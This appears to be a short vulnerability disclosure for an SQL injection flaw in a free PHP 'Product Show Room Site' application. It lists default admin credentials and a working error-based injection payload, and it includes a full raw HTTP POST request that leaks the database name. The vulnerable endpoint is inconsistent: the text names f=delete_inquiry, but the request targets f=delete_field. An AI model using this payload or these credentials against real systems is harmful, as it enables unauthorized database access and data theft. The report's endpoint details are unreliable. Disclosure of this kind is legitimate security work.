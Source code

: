 # Product Show Room Site v1.0 by oretnom23 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15370/product-show-room-site-phpoop-free-source-code.html

Vulnerability File: /psrs/classes/Master.php?f=delete_inquiry

Vulnerability location: /psrs/classes/Master.php?f=delete_inquiry, id

Current database name: psrs_db ,length is 7

[+] Payload: id=4' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id

```sql
POST /psrs/classes/Master.php?f=delete_field HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=7g6mvmuq5m1o1cvqrhprll4jr1
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 65

id=4' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/171827590-ddafbe7f-5669-41dc-a009-db02bd0e3d8d.png)
